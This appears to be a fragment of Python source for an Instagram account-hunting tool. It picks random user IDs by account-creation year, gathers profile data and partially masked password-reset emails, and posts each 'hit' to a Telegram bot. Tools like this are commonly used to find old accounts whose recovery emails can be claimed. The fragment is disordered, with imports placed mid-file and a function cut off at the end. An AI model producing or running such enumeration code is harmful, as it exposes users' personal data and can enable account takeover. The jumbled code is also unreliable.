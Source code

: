 	# Create masked email format: first letter******last letter@gmail.com
	if len(username) > 1:
		masked_email = f"{username[0]}******{username[-1]}@gmail.com"
	else:
		# Handle case where username has only 1 character
		masked_email = f"{username}******@gmail.com" if username else "******@gmail.com"
	
	if reset_email.endswith('@gmail.com'):email=masked_email
	elif reset_email.endswith('@a**.com')or reset_email.endswith('@aol.com'):email=f"{username[0]}******{username[-1]}@aol.com" if len(username) > 1 else f"{username}******@aol.com"
	else:email=f"{username}"
	ss=f"""⚔️  𝐓𝐨𝐨𝐥 𝐁𝐲 : 𝐋𝐎𝐕𝐄𝐏𝐑𝐄𝐄𝐓

╭─✦───────────────────────✦──✦───────────────────────✦─  
[🫅🏻️] Name ==> {full_name} 
[⚡] Username ==> @{username}  
[📧] Email ==> {email}  
[📈️] Followers ==> {fows}  
[📉️] Following ==> {fowg}  
[🖼️️] Posts ==> {pp}  
[📜] Bio ==> {bio}  
[🔐️] Private ==> {isPraise}
[🪪️] ID ==> {Id}  
[🗓️] Year ==> {date(Id)}  
[⚜️] Meta ==> {meta}  
[🔗] URL ==> https://www.instagram.com/{username}  
[♻️️] RESET ==> {reset_email}  
─✦───────────────────────✦──✦───────────────────────✦─
 𝐃𝐄𝐕𝐄𝐋𝐎𝐏𝐄𝐑 •  ⚡ @BEASTEREN ⚡ | ⚡ @SUDEEPHU ⚡""";inline_keyboard=[[{'text':'DEVELOPER','url':'https://t.me/beasteren'},{'text':'JOIN CHANNEL','url':'https://t.me/aniredirect'}]];payload={'chat_id':user_id,'text':ss,'reply_markup':json.dumps({'inline_keyboard':inline_keyboard})}
	try:requests.post(f"https://api.telegram.org/bot{Token}/sendMessage",data=payload)
	except:pass
def pppp():
    os.system('cls' if os.name=='nt' else 'clear')
    print(""*54)
    print(f"{green}  UNC: [{hits}]    {red}BAD: [{bad_gm}]    {yellow}BAD EMAIL: {bad_mail} ")
    print(""*54)
    print(f"{white}:: LEVI X ANI2TO ::".center(54))
import requests
import json
import random
import string
from threading import Thread
infoinsta={}
def safe_int_input(prompt,default):
	try:value=input(prompt).strip();return int(value)if value else default
	except:return default
ranges={1:(1279001,17750000),2:(17750000,279760000),3:(279760000,900990000),4:(900990000,1629010000),5:(1629010000,2500000000),6:(2500000000,3713668786),7:(3713668786,5699785217),8:(5699785217,8507940634),9:(8507940634,21254029834)}
print(f"{yellow}\nSelect a year for user ID range⚚ ")
for k in range(1,10):print(f"{k} - {2010+k}")
year_choice=safe_int_input(f"{yellow}ꜱᴇʟᴇᴄᴛ ᴛʜᴇ ʏᴇᴀʀ ʏᴏᴜ ᴡᴀɴᴛ ᴛᴏ ʜᴜɴᴛ (1-9) ☞ ",5)
def generate_user_id():start,end=ranges.get(year_choice,ranges[5]);return str(random.randrange(start,end))
def gg(min_followers,min_posts,user_id_func):
	while True:
		try: